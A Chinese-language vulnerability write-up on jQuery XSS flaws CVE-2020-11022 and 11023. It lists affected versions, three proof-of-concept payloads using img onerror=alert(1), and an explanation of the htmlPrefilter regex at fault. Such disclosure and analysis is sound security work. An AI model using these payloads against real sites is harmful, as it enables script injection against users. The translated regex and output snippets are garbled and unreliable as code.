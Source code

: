 # jQuery XSS漏洞 CVE-2020-11022 11023

# jQuery XSS漏洞 CVE-2020-11022 11023

## 漏洞描述

据NVD描述：在大于或等于1.2且在3.5.0之前的jQuery版本中，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

## 漏洞影响

```
3.5.0 > jQuery >= 1.2
```

## 漏洞复现

在线复现地址， 可以通过观察变化了解漏洞

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

```python
PoC 1.
<style><style /><img src=x onerror=alert(1)> 

PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">

PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

![](/images/202202091311659.png)

PoC 1和PoC 2具有相同的根本原因。在中`.html()`，作为参数传递的HTML字符串将传递到 [$ .htmlPrefilter（）](https://api.jquery.com/jQuery.htmlPrefilter/)方法。该`htmlPrefilter`处理用于替换自闭合标签等进行到，通过使用以下正则表达式：`<tagname **/>**``<tagname ></tagname>`

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[ww：-] +）[^>] *）\ /> / gi
[。 ..]
htmlPrefilter：function（html）{
  return html.replace（rxhtmlTag，“ <$ 1> </ $ 2>”）;
}
```

如果PoC 1的HTML通过此替换，则输出将是：

```plain
> $ .htmlPrefilter（'<style> <style /> <img src = x onerror = alert（1）>'）
<“ <style> <style> </ style> <img src = x onerror = alert（1） >“
```

黄色部分是替换的字符串。由于此替换，`<style />`样式元素内部被替换`<style ></style>`为，结果是，之后的字符串从样式元素中被踢出。之后，`.html()`将替换的HTML分配给`innerHTML`。在这里，`<img ...>`字符串变成了实际的img标签，并触发了onerror事件。

顺便说一下，上述正则表达式在3.x之前的jQuery中使用。从3.x开始，使用了另一个经过稍加修改的正则表达式

```plain
rxhtmlTag = / <（?! area | br | col | embed | hr | img | input | link | meta | param）（（[[az] [^ \ / \ 0> \ x20 \ t \ r \ n \ f] *）[^>] *）\ /> / gi
```

此更改引入了另一个XSS向量，该向量可能仅由更多基本元素和属性导致XSS。通过此更改引入了PoC 2的向量。它仅适用于jQuery3.x。

```plain
> $ .htmlPrefilter（'<img alt =“ <x” title =“ /> <img src = x onerror = alert（1）>”>'）
<“ <img alt =” <x“ title =”> < / x“> <img src = x onerror = alert（1）>”>“
```

在这种情况下，属性值上的 img 字符串被踢出并发生XSS。

